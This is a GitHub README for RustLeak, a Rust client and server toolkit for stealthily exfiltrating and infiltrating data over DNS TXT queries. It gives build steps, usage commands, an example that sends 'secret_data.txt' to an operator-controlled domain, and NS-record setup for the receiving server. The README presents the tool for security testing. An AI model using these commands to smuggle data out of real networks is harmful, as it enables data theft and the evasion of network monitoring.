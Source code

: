 # **RustLeak**

**RustLeak** is a lightweight and stealthy DNS-based data exfiltration and infiltration toolkit, built with Rust for high performance and reliability. It consists of two main components:
- **\`rustleak-server\`**: The custom DNS server that processes data through DNS queries.
- **\`rustleak-client\`**: The client tool to send or receive data using the server.

---

## **Features**
- **Custom DNS Server**: Handles DNS zones and processes encoded data.
- **Exfiltration and Infiltration**: Transmit or receive data using DNS queries and responses.
- **Command-Line Interface (CLI)**: Simple commands for sending and receiving data.

---

## **How It Works**
- **Exfiltration**: The client (\`rustleak-client\`) sends data embedded in DNS queries to the server (\`rustleak-server\`), which decodes and stores it.
- **Infiltration**: The server responds with data embedded in DNS responses, and the client decodes the received data.

---

## **Possible upgrades**
- **Single Encryption** : Using encryption in order to increase stealth. ( Restricted host <--> DNS Server)
- **Dual Encryption** : Using encryption in order to increase stealth. ( Restricted host <--> DNS Server <--> External host)
- **Record Type rotation**: Actually only TXT records are used to send/receive data.

---

## **Installation**

### Prerequisites
- Rust (latest stable version)
- Cargo (Rust package manager)

### Clone the Repository
\`\`\`bash
git clone https://github.com/Natounet/RustLeak.git
cd RustLeak
\`\`\`

### Build the Tools
\`\`\`bash
cargo build --release
\`\`\`

---

## **Usage**

### **Client: \`rustleak-client\`**
The client provides commands to send or receive data via DNS queries. Below are the supported commands:

#### **Send Data**
Use the \`Send\` command to exfiltrate data:
\`\`\`bash
rustleak-client send --code <unique_code> --filename <file_to_send> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: A unique identifier for the data being sent.
- \`--filename\`: Path to the file containing the data to be sent.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client send --code test123 --filename secret_data.txt --domain example.com
\`\`\`

#### **Receive Data**
Use the \`Receive\` command to retrieve data:
\`\`\`bash
rustleak-client receive --code <unique_code> --filename <output_file> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: The unique identifier for the data to retrieve.
- \`--filename\`: Path to the file where the received data will be saved.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client receive --code test123 --filename received_data.txt --domain example.com
\`\`\`

---

### **Server: \`rustleak-server\`**
The server handles DNS queries for a specific domain.

#### **Start the Server**
Run the server and specify the DNS zone to manage:
\`\`\`bash
rustleak-server --domain <dns_zone> 
\`\`\`

**Options**:
- \`--domain\`: The DNS zone to manage (e.g., \`example.com\`).
- \`--port\`: The port for the DNS server (default: 53).
- \`--output\`: File to save data received from clients.

**Example**:
\`\`\`bash
rustleak-server --domain example.com 
\`\`\`

---

## **Deployment**

To deploy \`rustleak-server\` online:
1. Obtain a domain name (e.g., \`example.com\`) and configure its DNS records.
2. Point your domain's **NS record** to the public IP of the machine running \`rustleak-server\`.
3. Start the server with the appropriate domain.

**DNS Configuration Example**:
\`\`\`plaintext
example.com.    IN NS   <server-public-ip>
\`\`\`

---

## **License**
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## **Contributing**
Contributions are welcome! Feel free to submit issues or pull requests for bug fixes or new features.

---

## **Disclaimer**
This tool is intended for **educational purposes** and authorized security testing only. The developer is not responsible for any misuse of this tool.

---

## **Contact**
For any questions or feedback, please open an issue on the [GitHub repository](https://github.com/Natounet/RustLeak).

---
